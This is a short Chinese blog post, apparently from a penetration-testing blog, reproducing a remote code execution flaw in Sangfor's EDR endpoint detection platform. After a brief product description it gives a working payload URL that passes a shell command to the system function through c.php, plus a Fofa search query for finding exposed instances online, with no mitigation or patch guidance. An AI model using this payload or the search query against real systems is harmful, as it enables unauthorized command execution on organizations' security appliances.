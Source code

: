 ```yaml
---
title: 深X服 EDR终端检测系统RCE漏洞复现
top: false
categories:
- 渗透测试
tags:
- RCE
- 深信服
abbrlink: 37031
date: 2020-08-17 22:11:48
keywords:
summary:
cover: http://image.geoer.cn/rce11.jpg
password:
---
```




#### 简介

深信服终端检测响应平台EDR，围绕终端资产安全生命周期，通过预防、防御、检测、响应赋予终端更为细致的隔离策略、更为精准的查杀能力、更为持续的检测能力、更为快速的处置能力。在应对高级威胁的同时，通过云网端联动协同、威胁情报共享、多层级响应机制，帮助用户快速处置终端安全问题，构建轻量级、智能化、响应快的下一代终端安全系统。



#### EDR的界面

<img src="http://image.geoer.cn/rce11.jpg"></img>





#### RCE Payload

```bash
https://xxx.com:xxx/tool/log/c.php?strip_slashes=system&host=id
```

<img src="http://image.geoer.cn/rce22.jpg"></img>





#### **Fofa关键字** 

```bash
title="终端检测响应平台"
```

